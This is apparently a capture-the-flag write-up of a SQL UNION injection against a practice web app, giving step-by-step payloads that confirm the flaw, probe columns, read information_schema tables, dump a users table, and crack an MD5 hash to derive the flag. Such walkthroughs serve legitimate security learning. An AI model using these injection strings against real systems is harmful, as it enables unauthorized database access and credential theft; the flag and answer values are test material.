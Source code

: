 # SQL UNION ATTACK
A union attack attempts to pull information from an additional table that is not the current table that is being queried.

### Step 1
> * Input is data search using ID's, try tentative search with integer and then without

### Step 2
> * Confirm SQL vulnerabitlity with 1 = 1 or 1

### Step 3
> * Attack
> 1. Confirm number off return columns and data types
>> * trial and error: 
> _1 = 1 or 1 ORDER BY 1_...  
> _UNION SELECT ‘a’,NULL_...
>
> 2. Find tables within current database  
>>_1 or 1 = 1 UNION SELECT 1,concat(table_name) FROM information_schema.tables WHERE table_schema = database()_
>
>>**users**
>
>3. Find columns within desired table  
>>_1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_schema = database()_
>
>>**user_id,first_name,last_name,town,country,planet,Commentaire,countersign**
>
>4. Find data  
>>_1 and 1=2 union select 1,concat(user_id,first_name,last_name,town,country,planet,Commentaire,countersign) from users_
>
>>**5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28**
>
>>_MD5 DECRYPT-> 5ff9d0165b4f92b14994e5c685cdce28 => FortyTwo_
>
>> _toLower -> FortyTwo => fortytwo_
>
>>_Sh256 ENCRYPT -> fortytwo => **10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5**_

https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635
